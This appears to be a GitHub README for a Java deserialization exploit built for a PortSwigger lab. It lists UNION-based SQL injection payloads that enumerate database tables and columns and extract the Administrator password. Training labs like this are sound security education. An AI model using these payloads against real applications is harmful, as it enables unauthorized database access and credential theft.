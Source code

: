 # pslab-Java-deserialization

This repository shows a kind of Java deserialization exploit for the PortSwigger deserialization Lab.

[challenge link](https://portswigger.net/web-security/deserialization/exploiting#creating-your-own-exploit)

## Usage

1. Download the commons-cli jar file into current path from apache.

2. Compile the java file.

```bash
javac -cp ".;<your-jar-file-path>" Main.java
```

3. Run the java file.

```bash
java -cp ".;<your-jar-file-path>" Main -i <your-sqli-payload>
```


## sqli payloads

```bash
# step 1. Enumerate the number of columns
java -cp ".;commons-cli-1.5.0.jar" Main -i "'ORDER BY 8 --"
java -cp ".;commons-cli-1.5.0.jar" Main -i "'ORDER BY 9 --"

# step 2. Determine the data type of each column

java -cp ".;commons-cli-1.5.0.jar" Main -i "'UNION SELECT null, null, null, null, null, null, null, null --"
java -cp ".;commons-cli-1.5.0.jar" Main -i "'UNION SELECT 1, null, null, null, null, null, null, null --"
java -cp ".;commons-cli-1.5.0.jar" Main -i "'UNION SELECT null, null, null, null, 1, null, null, null --"

# step 3. List the content of database
java -cp ".;commons-cli-1.5.0.jar" Main -i "'UNION SELECT NULL,NULL,NULL,NULL,CAST(table_name AS numeric),null,null,null from information_schema.tables --"
java -cp ".;commons-cli-1.5.0.jar" Main -i "'UNION SELECT NULL,NULL,NULL,NULL, CAST(column_name AS numeric) ,null,null,null from information_schema.columns WHERE table_name='users' -- "
java -cp ".;commons-cli-1.5.0.jar" Main -i "'UNION SELECT NULL,NULL,NULL,NULL, CAST(column_name AS numeric) ,null,null,null from information_schema.columns WHERE table_name='users' and column_name != 'username' -- "

# step 4. Use a suitable SQL injection payload to extract the password from the users table
java -cp ".;commons-cli-1.5.0.jar" Main -i "'UNION SELECT NULL,NULL,NULL,NULL, CAST(password AS numeric) ,null,null,null from users WHERE username='Administrator' -- "
```